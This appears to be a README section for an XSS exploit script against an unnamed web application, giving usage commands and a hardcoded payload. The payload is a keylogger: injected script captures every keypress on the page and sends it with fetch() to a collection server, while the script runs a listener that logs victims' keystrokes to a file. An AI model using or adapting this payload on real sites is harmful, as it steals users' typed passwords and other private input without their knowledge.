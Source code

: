 # **Exploitation Steps**
Python script requires **python 3** and **requests** library installed

The python exploit can be launched either with one or zero parameter, the latter if specified will define a payload for the XSS Injection.

Usage:

- **Default Payload**
~~~
python3 exploit.py
~~~

This Javascript payload hardcoded in the exploit:
~~~
"><script>document.onkeydown=function(event){fetch('http://localhost:8888/data?letter='+encodeURIComponent(event.key))}</script>
~~~

implements the functionalities of a keylogger by collecting all the users keyboard inputs and sending them to a remote server (http://localhost:8888 in this case)

</br>

- **Custom Payload** (must be inserted between single quotes)
~~~
python3 exploit.py '"><script>alert("This is a custom payload")</script>'
~~~

</br>

If the script is using the default payload, it will also start an **HTTP Server on port 8888**, make sure it is available to prevent conflicts.
Additionally keys pressed by users will be stored in a file named **log_output.txt**